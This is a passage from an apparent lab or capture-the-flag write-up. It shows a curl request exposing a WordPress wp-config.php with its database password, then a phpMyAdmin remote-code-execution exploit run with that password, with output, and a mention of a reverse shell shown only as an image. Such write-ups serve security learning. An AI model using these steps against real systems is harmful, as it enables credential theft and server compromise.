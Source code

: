 ```php
$ curl http://192.168.197.174/wp-config.php      
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'ThinnerATheWaistline348');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
<TRUNCATED>
```

Using this password, we can achieve RCE on phpMyAdmin:

```
$ python3 50457.py 192.168.197.174 8888 / wordpress ThinnerATheWaistline348 id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>
